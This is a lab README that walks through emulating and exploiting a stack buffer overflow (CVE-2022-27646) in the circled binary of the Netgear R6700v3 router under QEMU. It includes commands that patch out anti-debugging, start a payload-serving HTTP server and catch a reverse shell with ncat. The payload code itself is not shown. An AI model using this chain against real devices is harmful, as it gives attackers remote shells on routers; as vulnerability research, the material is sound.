 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3 (CVE-2022-27646)
## 1. Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the project repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable pointing to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch out the anti-debugging functionality (allow LDPRELOAD) of the circled binary
  python3 firmware/circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script (wrapper to emulate binary circled)
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Start the HTTP server delivering the payloads:
  ```
  # Using the default payloads triggering a reverse shell (use `--cmd` for a custom stage 0 payload)
  python3 server/circled.server.py
  ```
- In case the HTTP server was started with the default stage 0 payload (i.e. without customizing `--cmd`), listen for the reverse shell coming in on TCP port 5001:
  ```
  server/bins/ncat -l -p 5001
  ```
- Emulate the vulnerable *circled* binary:
  - Configure conservative ASLR as being used on the Netgear R6700v3:
    ```
    echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
    ```
  - Chroot into the root filesystem:
    ```
    sudo mount -t proc /proc/ $ROOTFS/proc/
    sudo mount -t sysfs /sys/ $ROOTFS/sys/
    sudo mount -o bind /dev/ $ROOTFS/dev/
    sudo chroot $ROOTFS/ /bin/sh
    ```
  - Execute the *circled* binary:
    ```
    export SHELL=/bin/sh

    # With GDB and therefore without ASRL (omit `--gdb` to run without GDB and with ASRL enabled)
    ./circled.sh --gdb
    ```
# 2. Morion Tracing
- Trace crash (`gdb-multiarch -q -x circled.gdb`)
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram

